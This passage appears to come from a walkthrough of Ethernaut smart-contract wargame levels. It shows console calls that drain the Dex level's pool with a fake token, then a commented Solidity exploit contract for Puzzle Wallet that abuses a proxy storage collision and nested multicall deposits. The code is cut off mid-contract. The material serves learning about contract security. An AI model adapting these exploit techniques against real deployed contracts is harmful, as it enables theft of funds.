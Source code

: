 Let's call our exploit token `POOP`. We can easily drain the Dex contract with
just two calls to the swap function:

```
>> await contract.swap(POOP, token1, '100')
>> await contract.swap(POOP, token2, '100')
```

And that clears the level!

# Puzzle Wallet
This is one of my favorite levels because it feels the most like a real exploit.
The vulnerability lies in the proxy and logic contract storage collisions.

By setting `pendingAdmin` in the proxy, we're changing the value of `owner` in
PuzzleWallet (when PuzzleWallet is delegate called from the proxy), because they
share the same storage slot. Similarly, setting `maxBalance` in PuzzleWallet when 
it is delegate called by the proxy will change `admin` in the proxy. To avoid these
kinds of errors your proxy and implementation **must** have the same storage layout!

But how do we update `maxBalance`? The only way is to drain the contract first...
There's another trick we take advantage of besides the shared storage. The logic for
checking if `deposit()` is only called once in `multicall` is incorrect. We can call
deposit as many times as we want by calling `multicall` from itself! `msg.value`
is preserved in the delegate call so we can arbitrarily add to our balance.

Here's the exploit contract with comments to explain:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
pragma experimental ABIEncoderV2;

import "./PuzzleWallet.sol";

contract PuzzleProxyExploit {

    PuzzleProxy public immutable proxy;
    PuzzleWallet public immutable wallet;

    constructor(address payable _puzzleWallet) public {
        proxy = PuzzleProxy(_puzzleWallet);
        wallet = PuzzleWallet(_puzzleWallet);
    }

    bytes[] private topLevelCalls;
    bytes[] private nestedCall;
    function exploit(address newAdmin) public payable {
        require(msg.value == 1000000000000000);

        // Set `pendingAdmin` in proxy to this address to change `owner` in wallet
        proxy.proposeNewAdmin(address(this));
        // We're the owner now so we can add ourself to the whitelist
        wallet.addToWhitelist(address(this));

        // The first call to multicall will be `deposit`
        // The second call will be a call to `multicall`, which itself
        // performs a call to `deposit`
        // 
        // This allows us to deposit twice and increase our balance by 2 * msg.value
        // (we can repeat this an arbitrary number of times)
        topLevelCalls.push(abi.encodeWithSelector(PuzzleWallet.deposit.selector));
        nestedCall.push(abi.encodeWithSelector(PuzzleWallet.deposit.selector));
        topLevelCalls.push(abi.encodeWithSelector(PuzzleWallet.multicall.selector, nestedCall));
        wallet.multicall{value: msg.value}(topLevelCalls);

```